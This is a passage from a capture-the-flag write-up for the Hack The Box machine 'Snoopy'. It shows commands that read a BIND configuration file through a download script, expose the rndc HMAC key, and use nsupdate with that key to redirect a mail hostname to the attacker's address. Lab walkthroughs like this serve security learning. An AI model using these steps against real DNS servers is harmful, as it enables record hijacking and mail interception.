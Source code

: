 
## Abusing dns

```bash
$ python3 download.py  /etc/bind/named.conf
// This is the primary configuration file for the BIND DNS server named.
//
// Please read /usr/share/doc/bind9/README.Debian.gz for information on the
// structure of BIND configuration files in Debian, *BEFORE* you customize
// this configuration file.
//
// If you are just adding zones, please do that in /etc/bind/named.conf.local

include "/etc/bind/named.conf.options";
include "/etc/bind/named.conf.local";
include "/etc/bind/named.conf.default-zones";

key "rndc-key" {
    algorithm hmac-sha256;
    secret "BEqUtce80uhu3TOEGJJaMlSx9WT2pkdeCtzBeDykQQA=";
};
```

with that key, we can update dns records on remote server.

first, we create the "update script"

```
server 10.10.11.212
zone snoopy.htb
update add mail.snoopy.htb 600 IN A 10.10.14.15
send
```

```bash
joshua@kaligra:~/Documents/htb/machines/Snoopy$ cat > update-dns.txt
server 10.10.11.212
zone snoopy.htb
update add mail.snoopy.htb 600 IN A 10.10.14.15
send
joshua@kaligra:~/Documents/htb/machines/Snoopy$ cat > rndc-key
key "rndc-key" {
    algorithm hmac-sha256;
    secret "BEqUtce80uhu3TOEGJJaMlSx9WT2pkdeCtzBeDykQQA=";
};
joshua@kaligra:~/Documents/htb/machines/Snoopy$ nsupdate -k rndc-key update-dns.txt
```

that worked

```bash
joshua@kaligra:~/Documents/htb/machines/Snoopy$ dig +short @10.10.11.212 mail.snoopy.htb
10.10.14.15
```

## spawn Postfix
